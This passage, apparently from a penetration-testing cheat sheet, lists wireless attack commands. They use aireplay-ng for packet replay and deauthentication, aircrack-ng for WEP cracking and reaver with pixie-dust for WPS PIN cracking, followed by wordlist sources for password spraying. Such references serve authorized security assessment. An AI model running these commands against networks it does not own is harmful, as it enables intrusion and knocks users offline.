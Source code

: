 Start replaying packets to clients within your range:

```fundamental
aireplay-ng --cfrag -D wlan1 -e essid -h FF:FF:FF:FF:FF:FF
```

\[Optional\] Deauthenticate clients from the real/fake WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Crack the WEP authentication:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF airodump_essid_results*.cap
```

### WPS PIN

Crack a WPS PIN:

```fundamental
reaver -vv --pixie-dust -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

Crack a WPS PIN with some delay between attempts:

```fundamental
reaver -vv --pixie-dust -N -L -d 5 -r 3:15 -T 0.5 -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

## 4. Wordlists

You can find `rockyou.txt` wordlist located at `/usr/share/wordlists/` or in SecLists.

Download a useful collection of multiple types of lists for security assessments.

Installation:

```bash
apt-get update && apt-get install seclists
```

Lists will be stored at `/usr/share/seclists/`.

Or, manually download the collection from [GitHub](https://github.com/danielmiessler/SecLists/releases).

Another popular wordlist collections:

* [xmendez/wfuzz](https://github.com/xmendez/wfuzz)
* [assetnote/commonspeak2-wordlists](https://github.com/assetnote/commonspeak2-wordlists)
* [weakpass.com/wordlist](https://weakpass.com/wordlist)
* [packetstormsecurity.com/Crackers/wordlists](https://packetstormsecurity.com/Crackers/wordlists)

### Password Spraying

Find out how to generate a good password spraying wordlist from my other [project](https://github.com/ivan-sincek/wordlist-extender), but first you will need a few good keywords that describe your target.
